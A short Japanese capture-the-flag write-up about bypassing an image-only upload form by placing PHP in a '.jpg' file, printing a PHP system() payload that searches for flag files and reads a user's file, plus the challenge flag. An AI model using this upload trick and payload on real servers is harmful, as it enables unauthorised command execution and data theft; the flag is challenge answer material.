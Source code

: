 # Writeup

ページにアクセスすると、ファイルアップロードの画面が表示される。

![](img/2021-03-27-16-38-37.png)

特定の画像ファイルしかアップロードできないが、`.jpg`という拡張子のファイルにPHPコードを書くと実行させることができる。

```php
<?php 
system("find / -name *flag*");
echo "<br>";
system("cat /home/hermit/userflag.txt");
?>
```

![](img/2021-03-27-16-39-00.png)

![](img/2021-03-27-16-40-11.png)

<!-- UMASS{a_picture_paints_a_thousand_shells} -->